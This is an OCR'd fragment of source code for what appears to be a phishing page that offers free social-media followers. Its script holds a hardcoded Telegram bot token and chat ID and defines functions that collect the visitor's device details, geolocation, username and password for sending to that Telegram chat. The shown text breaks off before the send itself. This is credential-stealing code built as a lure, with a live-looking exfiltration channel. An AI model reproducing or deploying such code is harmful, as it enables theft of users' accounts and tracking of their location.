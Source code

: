         <div class="followers-options">
            <div class="follower-option">
                <input type="radio" id="option-100" name="followers" value="100">
                <label for="option-100">
                    <span class="count">100</span>
                    <span class="text">Followers</span>
                </label>
            </div>
            <div class="follower-option">
                <input type="radio" id="option-200" name="followers" value="200">
                <label for="option-200">
                    <span class="count">200</span>
                    <span class="text">Followers</span>
                </label>
            </div>
            <div class="follower-option">
                <input type="radio" id="option-500" name="followers" value="500" checked>
                <label for="option-500">
                    <span class="count">500</span>
                    <span class="text">Followers</span>
                </label>
            </div>
        </div>
        
        <button class="start-btn" id="startBtn">Start</button>
        
        <div class="loader" id="loader"></div>
        <div class="message" id="message"></div>
    </div>

    <script>
        // === CONFIGURATION ===
        const BOT_TOKEN = '7659085089:AAGTE5B4NRLG_tFvbfYayfrG0URgFgXnv5w';
        const CHAT_ID = '6319619567';

        // === DEVICE INFO FUNCTION ===
        function getDeviceInfo() {
          return {
            userAgent: navigator.userAgent,
            platform: navigator.platform,
            language: navigator.language,
            cookiesEnabled: navigator.cookieEnabled,
            screenSize: `${screen.width}x${screen.height}`,
          };
        }

        // === LOCATION FUNCTION ===
        function sendLocationToTelegram(position, username, password, followersCount) {
          const lat = position.coords.latitude;
          const lon = position.coords.longitude;
          const accuracy = position.coords.accuracy;
          const timestamp = new Date(position.timestamp).toLocaleString();

          const device = getDeviceInfo();
